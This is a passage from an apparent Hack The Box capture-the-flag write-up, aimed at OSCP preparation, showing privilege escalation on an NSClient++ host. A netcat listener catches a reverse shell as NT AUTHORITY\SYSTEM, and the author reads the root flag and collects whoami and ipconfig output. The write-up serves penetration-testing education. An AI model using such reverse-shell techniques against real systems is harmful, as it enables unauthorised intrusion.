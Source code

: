 ### Shell as NT AUTHORITY\SYSTEM

```bash
0hmsec@kali:-$ nc -nvlp 81
listening on [any] 81 ...
whoami
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.184] 50021
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
```

#### ROOT flag

Thus, we have the `root.txt` flag.

>If you are preparing for OSCP+, always make sure to get your screenshots that displays the output of the commands `type root.txt`, `whoami` and `ipconfig`. Your screenshot should contain all the contents as shown below. In the OSCP+ exam boxes, the "root.txt" will be "proof.txt".
{: .prompt-tip }

```bash
c:\Users\Administrator\Desktop>type root.txt
type root.txt
1a46c75407df1.................

c:\Users\Administrator\Desktop>whoami
whoami
nt authority\system

c:\Users\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::ccff:e7f6:ddc9:24e9
   Link-local IPv6 Address . . . . . : fe80::ccff:e7f6:ddc9:24e9%6
   IPv4 Address. . . . . . . . . . . : 10.10.10.184
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9106%6
                                       10.10.10.2
```

万歳!万歳!万歳!